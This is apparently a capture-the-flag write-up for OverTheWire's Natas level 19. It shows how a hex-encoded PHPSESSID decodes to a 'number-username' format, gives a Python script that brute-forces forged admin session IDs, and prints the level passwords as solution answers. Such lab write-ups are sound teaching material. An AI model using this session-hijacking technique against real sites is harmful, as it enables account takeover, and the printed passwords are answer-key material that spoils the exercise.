

# Level 18 → Level 19

## Details
Username: `natas19`<br />
Password: `8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`<br />
URL:      http://natas19.natas.labs.overthewire.org

## Solution


So, let's try to see what the `PHPSESSID` is when the username is `UserName` and the password is `Password123`:


So what is `3339372d557365724e616d65`? Let's say that after many challenges in reversing (for example, [microcorruption](https://github.com/SimchaTeich/Microcorruption)) I immediately recognize **hexadecimal characters**... (yes it's very strange). Let's see what this string means:

```python
print(bytes.fromhex('3339372d557365724e616d65'))
# Output: b'397-UserName'
```

We have now discovered the format, so we can immediately do a brute force similar to the previous challenge. We will of course remember that it is likely that the username will be `"admin"` and we will build the following code:

```python
from requests import get
from requests.auth import HTTPBasicAuth

# Current level details
natas19_username = "natas19"
natas19_password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"

# GET HTTP details
URL = "http://natas19.natas.labs.overthewire.org/?username=admin&password=admin"
AUTH = HTTPBasicAuth(natas19_username, natas19_password)
COOKIES = {'PHPSESSID': None}

res = None
for i in range(1, 640 + 1):
    COOKIES['PHPSESSID'] = bytes.hex(str(i).encode() + b'-admin')
    res = get(url=URL, auth=AUTH, cookies=COOKIES)
    if "Password" in res.text:
        print(f"admin PHPSESSID value is: {COOKIES['PHPSESSID']} ({str(i)+'-admin'})")
        break
    else:
        print(f"admin PHPSESSID value is NOT: {COOKIES['PHPSESSID']} ({str(i)+'-admin'})")

print(res.text)
```

Results:



## Password for the next level:
```
guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH
```
